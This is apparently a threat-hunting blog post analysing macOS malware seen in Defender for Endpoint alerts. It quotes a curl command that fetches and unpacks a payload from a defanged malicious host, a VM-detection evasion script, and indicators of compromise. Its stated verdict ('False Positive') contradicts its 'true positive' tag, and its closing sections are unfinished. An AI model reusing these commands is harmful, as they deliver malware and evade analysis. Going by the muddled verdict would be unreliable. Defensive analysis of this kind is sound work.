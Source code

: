```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar actions, for sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

It seems like this executable toes a download of some additional code from external and extracts it to "/private/var/tmp/helpexecd/helpexecd"
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And then it runs this helpexecd which amongst other things runs this bash script:
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```
Now this feels like malware trying to figure out if it's running in a sandbox, highly fishy!

## Hunting deeper

If we look at more cases of the same endpoint we can see that the same thing that apadecoded does, what's more interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:
 * canonistical
 * noble
 * odontolite
 * intrinsicalness
 * TestDate
 * SysUpdater
 * leam
 * recommitment
 * TestDateDaemon
 * apadecode
 * apadecoded

{% include mermaid_start.liquid %}
flowchart TD;
    kernel_task -->|run| launchd;
    launchd --> |run|xpcproxy;
    xpcproxy --> |run| apadecoded;
    apadecoded -->|run| 451CEB63-C438-40C3-899F-0BE4F425F074;
    apadecoded -->|run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
    apadecoded -->|run| AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
    451CEB63-C438-40C3-899F-0BE4F425F074 -->|run| curl;
    DFBDC5FD-3F69-472A-832B-C8C394560BC4 -->|run| curl;
    AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> |run|curl;
    curl -->|download| cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
    cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> 89.187.162.142;
    cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> 89.187.162.134;
    89.187.162.142 --> helpexecd;
    89.187.162.134 --> helpexecd;
    helpexecd --> 35.160.226.50;
    helpexecd --> 34.217.226.241;
    style kernel_task stroke-dasharray: 88.5 44
{% include mermaid_end.liquid %}


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

